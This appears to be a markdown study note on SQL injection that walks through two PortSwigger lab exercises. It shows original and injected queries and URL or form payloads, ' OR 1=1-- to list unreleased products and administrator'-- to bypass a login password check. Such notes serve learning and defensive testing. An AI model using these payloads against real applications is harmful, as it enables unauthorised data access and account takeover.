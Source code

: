 # SQL Injections

## Where clause allowing retrieval of data

A SQL injection may start with ' or at least in the burp suite labs the single quote is required.

The where statement is executed succesfully, after injecting the payload the released flag is ignored; this returns all of the products regardless of its' release status.

Code:
<br>`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`<br>
`SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1`

Payload:<br>
`filter?category=Gifts'+OR+1=1--`<br>
'+OR+1=1--

Credit:<br>
[SQL retrieve data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

## Login bypass
Explantation:<br>
This payload is a more simple to understand. The username and password are used as variables in the SQL query. <br>If an application does not validiate/sanitize the input an attacker can inject their own SQL and bypass. We bypass the login by removing the password requirement.<br>

Code:<br>
`SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'`
<br>`SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`<br>
<br>Payload:
<br>`username=administrator%27--&password=hello`<br>
Username field = "adminstrator'--"<br>
<br>Credit:<br>
[SQL Login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)
